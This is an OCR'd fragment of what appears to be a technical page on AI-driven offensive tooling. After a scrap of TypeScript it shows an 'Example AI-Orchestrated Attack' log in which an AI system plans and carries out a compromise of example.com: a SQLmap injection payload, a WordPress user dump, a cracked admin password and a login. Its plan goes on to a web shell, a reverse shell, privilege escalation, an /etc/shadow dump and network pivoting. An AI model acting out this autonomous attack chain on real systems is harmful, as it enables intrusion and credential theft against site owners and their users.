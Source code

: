 ```typescript
    });

    return {
      success: true,
      steps: chain.steps,
      analysis: analysis
    };
  }
}
```

**Example AI-Orchestrated Attack:**

```
Target: example.com
Objective: Full system compromise

[AI] Initial reconnaissance complete.
[AI] Discovered attack surface:
  - SQL injection at /api/search (HIGH confidence)
  - WordPress 6.2.1 (CVE-2023-12345 available)
  - Exposed .git directory
  - SSH on port 22 (brute-forceable)

[AI] Planning optimal attack chain...
[AI] Attack chain planned:
  1. Exploit SQL injection → extract database (90% confidence)
  2. Use database credentials for WordPress admin (75% confidence)
  3. Upload malicious plugin → web shell (95% confidence)
  4. Establish reverse HTTPS shell (99% confidence)
  5. Escalate privileges via CVE-2023-XXXX (80% confidence)
  6. Dump /etc/shadow for password cracking (90% confidence)
  7. Pivot to internal network via SSH keys (70% confidence)

[AI] Estimated time to compromise: 3-5 minutes
[AI] Stealth rating: MEDIUM (SQL injection may trigger WAF)

[AI] Begin attack? (yes/no): yes

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

[AI] Executing: Exploit SQL injection → extract database

[SQLmap] Testing parameter: q
[SQLmap] Payload: 1' AND 1=1--
[SQLmap] Vulnerable! MySQL 5.7 detected
[SQLmap] Extracting database...
[SQLmap] Retrieved 3 databases: information_schema, wordpress, backup
[SQLmap] Dumping 'wordpress' database...
[SQLmap] Found 'wp_users' table (12 records)
[SQLmap] Retrieved admin hash: $P$B...

[AI] ✓ Step succeeded
[AI] Extracted: 12 user accounts, admin password hash

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

[AI] Executing: Use database credentials for WordPress admin

[AI] Attempting to crack admin hash...
[John the Ripper] Cracked: admin:hunter2

[AI] Logging into /wp-admin...
[HTTP] POST https://example.com/wp-login.php
```